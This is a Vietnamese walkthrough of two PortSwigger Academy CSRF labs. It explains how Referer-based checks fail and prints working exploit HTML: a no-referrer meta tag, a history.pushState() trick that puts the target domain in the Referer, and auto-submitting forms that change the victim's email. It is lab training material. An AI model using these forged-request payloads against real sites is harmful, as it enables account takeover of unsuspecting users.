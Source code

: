 Vẫn như các bài lab trước ta đăng nhập và update email: 

![image](https://user-images.githubusercontent.com/104350480/225495034-dfc34657-f262-4225-ab9f-0f4057c97e6f.png)

Mở burpsuite phần post /change-email và chú ý phần referer, khi ta chinh sửa nó thì nó sẽ có vấn đề:

![image](https://user-images.githubusercontent.com/104350480/225495981-669bba27-7048-4940-bfb1-184f02d970d8.png)

Nhưng như tên bài, nó dựa vào việc có mặt của referer giống như bài lab dựa vào sự có mặt của csrf token, ta cắt xén nó đi thì vẫn oke: 

Nên ta có thể thực hiện exploit luôn: 

```
Với phần header: 
<meta ='referrer' content='no-referrer'>
Với phần body:
<form id='csrf' method='POST' action='https://0ac1007e04ca2608c0d70d04006b00c2.web-security-academy.net/my-account/change-email'>
<input type='hidden' name='email' value='manhhuy2002@gmail.com'
<input type='submit'>
</form> 
<script>document.getElementById('csrf').submit();</script>
```
## [7. SRF with broken Referer validation](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)<a name='pcsrf8'></a>

Ở bài lab tiếp theo này thì đã được xử lí tình huống ở bài lab trước, khi cắt đi referer header thì sẽ bị báo lỗi:

![image](https://user-images.githubusercontent.com/104350480/225498371-9ef4843f-2127-4e76-9c56-ede6fd832b01.png)

Nhưng vấn đề ở đây là server sẽ chỉ kiểm tra sự có mặt của nó còn thêm mắm muối vào lại không sao cả:

![image](https://user-images.githubusercontent.com/104350480/225498574-364a6670-aae3-4033-acb5-6bbd63b75c7b.png)

Để giải quyết bài lab này ta có thể sử dụng hàm history.pushState() với các tham số history.pushState(state,title,url) , hàm này dược sử dụng để thêm trạng thái mới của trình duyệt mà không ảnh hưởng hay phải load lại nội dung hiện tại của trang web. Tham số thứ 3 ta sẽ lợi dụng ở đây là url để cập nhận url hiển thị trong thanh trình duyện mà không làm tải lại trang web. VIệc này cho phép ta đánh dấu trang web và chuyển hướng đến trang đó trong tương lai mà không mất bất kì dữ liệu nào hiện tại trên trang web. Mục đích sử dụng hàm history.pushState() để tạo một trạng thái mới trong lịch sử trình duyệt của nạn nhân. Khi nạn nhân click vào đường link, trình duyệt sẽ lưu trữ URL trên đó được truy cập từ trang web gốc của nạn nhân.

Vẫn vậy ta dùng đoạn code sau để exploit, ta truyền vào 1 url tương đối cũng được: 

```
<script> history.pushState("", "", "/?12342340ad7005e037de64ec3d444b600bd00b7.web-security-academy.net/my-account") </script>
<form id='csrf' method='POST' action='https://0ad7005e037de64ec3d444b600bd00b7.web-security-academy.net/my-account/change-email' >
<input type='hidden' name='email' value='manhhuy2002@gmail.com' >
<input type='submit' >
</form>
<script> document.getElementById('csrf').submit() </script>

```
